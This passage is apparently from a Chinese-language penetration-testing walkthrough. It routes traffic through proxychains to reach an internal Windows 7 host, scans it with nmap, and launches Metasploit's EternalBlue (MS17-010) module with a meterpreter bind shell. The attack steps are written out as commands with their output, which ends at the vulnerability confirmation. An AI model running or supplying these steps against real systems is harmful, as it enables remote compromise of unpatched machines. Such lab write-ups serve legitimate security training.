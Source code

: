 

代理成功：`proxychains nmap 192.168.201.129`

![image-20211013162804601](assets/image-20211013162804601.png)



漏洞利用：

通过代理启动msfdb

```shell
┌──(kali㉿kali)-[~]
└─$ sudo proxychains msfdb run                       #启动msfdb                                                                                    1 ⨯
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[i] Database already started
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.1
```

```
msf6 > use exploit/windows/smb/ms17_010_eternalblue                #使用永恒之蓝漏洞利用模块
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.201.129       #设置目标ip
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp   #正向shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 9988      #设置端口
msf6 exploit(windows/smb/ms17_010_eternalblue) > run                   #运行
[proxychains] DLL init: proxychains-ng 4.14
[proxychains] DLL init: proxychains-ng 4.14

[*] 192.168.201.129:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:445  ...  OK
[proxychains] Strict chain  ...  175.24.115.4:9999  ...  192.168.201.129:135  ...  OK
[+] 192.168.201.129:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 192.168.201.129:445   - Scanned 1 of 1 hosts (100% complete)
```